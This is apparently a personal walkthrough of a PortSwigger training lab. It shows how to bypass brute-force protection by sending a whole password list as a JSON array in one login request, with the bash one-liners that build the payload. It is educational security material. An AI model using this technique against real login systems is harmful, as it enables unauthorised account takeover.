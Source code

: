# Lab: Broken brute-force protection, multiple credentials per request
[Lab URL](https://portswigger.net/web-security/authentication/password-based/lab-broken-brute-force-protection-multiple-credentials-per-request)


 This lab is vulnerable due to a logic flaw in its brute-force protection. To solve the lab, brute-force Carlos's password, then access his account page.

+ Victim's username: carlos
+ [Candidate passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords)


# Walking the webapp

Capturing the login POST request I see that my credentials that I sent for testing are being sent as JSON:

![image](https://user-images.githubusercontent.com/83407557/208735715-2c8d0ab6-2634-498b-9740-378ce966ddbf.png)


# Creating a list of multipe requests using bash

First step is to grab the passwords list provided by the lab:

```bash
└─$ head passwords              
123456
password
12345678
qwerty
123456789
12345
1234
111111
1234567
dragon
```

Next I want to build out JSON with these and the username carlos:

```bash
└─$ for i in $(cat passwords);do echo '"username":"carlos",';echo '"password":''"'$i'",';done > creds.json
```
output:
```bash
└─$ head creds.json               
"username":"carlos",
"password":"123456",
"username":"carlos",
"password":"password",
"username":"carlos",
"password":"12345678",
"username":"carlos",
"password":"qwerty",
"username":"carlos",
"password":"123456789",
```

# pasting this into the POST request:

First I need to copy the json I made:

```bash
└─$ cat creds.json|xclip -selection clipboard
```

and then use repeater to add it to my POST request:

![image](https://user-images.githubusercontent.com/83407557/208737593-cb6a6c3b-635f-4450-8669-b85dd2887207.png)

This method did not work.

# Trying to send the passwords as an array

Similar to the last attempt, next I will try just a single username parameter, but send the passwords as an array in json

### Making passwords.json:

```bash
for i in $(cat passwords);do echo '"'$i'",';done > passwords.json
```
```bash
└─$ head passwords.json 
"123456",
"password",
"12345678",
"qwerty",
"123456789",
"12345",
"1234",
"111111",
"1234567",
"dragon",
```
After getting several errors, I realized I also needed to remove all the newlines from the above, to do that I used tr:
```bash
tr -d '\n' < passwords.json > pass_no_newline.json
```
output:
```bash
└─$ head pass_no_newline.json 
"123456","password","12345678","qwerty","123456789","12345","1234","111111","1234567","dragon","123123","baseball","abc123","football","monkey","letmein","shadow","master","666666","qwertyuiop","123321","mustang","1234567890","michael","654321","superman","1qaz2wsx","7777777","121212","000000","qazwsx","123qwe","killer","trustno1","jordan","jennifer","zxcvbnm","asdfgh","hunter","buster","soccer","harley","batman","andrew","tigger","sunshine","iloveyou","2000","charlie","robert","thomas","hockey","ranger","daniel","starwars","klaster","112233","george","computer","michelle","jessica","pepper","1111","zxcvbn","555555","11111111","131313","freedom","777777","pass","maggie","159753","aaaaaa","ginger","princess","joshua","cheese","amanda","summer","love","ashley","nicole","chelsea","biteme","matthew","access","yankees","987654321","dallas","austin","thunder","taylor","matrix","mobilemail","mom","monitor","monitoring","montana","moon","moscow",
```


### using repeater to pass an array:

![image](https://user-images.githubusercontent.com/83407557/208742965-872c2c03-54b8-443c-9558-54e046477dea.png)

Then I can click show response in browser:

![image](https://user-images.githubusercontent.com/83407557/208743086-a269071f-7625-497f-81fd-3e672c9f339f.png)

which solves the lab:

![image](https://user-images.githubusercontent.com/83407557/208743188-e5d794ff-bfe4-4695-a423-6483700dce64.png)


Note( after completing the lab I went back and found that I didn't need to put everything on one line, it was actually the "":"" at the end that was causing the error:

![image](https://user-images.githubusercontent.com/83407557/208744208-f12f5556-2a34-4030-9803-c3663872f380.png)

![image](https://user-images.githubusercontent.com/83407557/208744318-a26701b3-3151-4d17-8b09-efa3cfb4dd7a.png)

hope that helps someone ; p
